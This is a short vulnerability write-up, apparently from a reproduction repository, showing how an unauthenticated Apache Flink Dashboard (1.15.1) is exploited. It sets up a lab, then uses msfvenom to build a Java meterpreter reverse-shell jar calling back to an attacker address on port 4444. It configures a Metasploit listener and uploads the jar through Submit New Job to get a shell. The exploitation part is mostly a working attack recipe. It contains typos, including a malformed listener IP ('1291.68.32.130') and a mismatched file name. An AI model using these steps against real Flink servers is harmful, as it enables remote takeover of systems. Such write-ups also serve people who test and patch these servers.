




# Apache Flink Unauthorized Access Vulnerability

## Vulnerability Description

The Apache Flink Dashboard has no user authentication by default. An attacker can directly upload a trojan jar package through the unauthorized Flink Dashboard console and remotely execute any system command to obtain server privileges.

## Environment setup

Test version: flink-1.15.1

Modify `flink-1.15.1/conf/flink-conf.yaml`,open 8081 port.



Start Flink:

```
start-cluster.sh
```


## Vulnerability Exploitation

Access the web page.



Use msfvenom to generate rce.jar:

```
┌──(root💀kali)-[/tmp]
└─# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.32.130 LPORT=4444 -f jar > rce.jar
Payload size: 5310 bytes
Final size of jar file: 5310 bytes
```

Configure msf listening:

```
bashCopy codemsf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 1291.68.32.130
lhost => 1291.68.32.130
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

Upload the `rec.jar` file at Submit New Job, click submit.



Successful get shell.

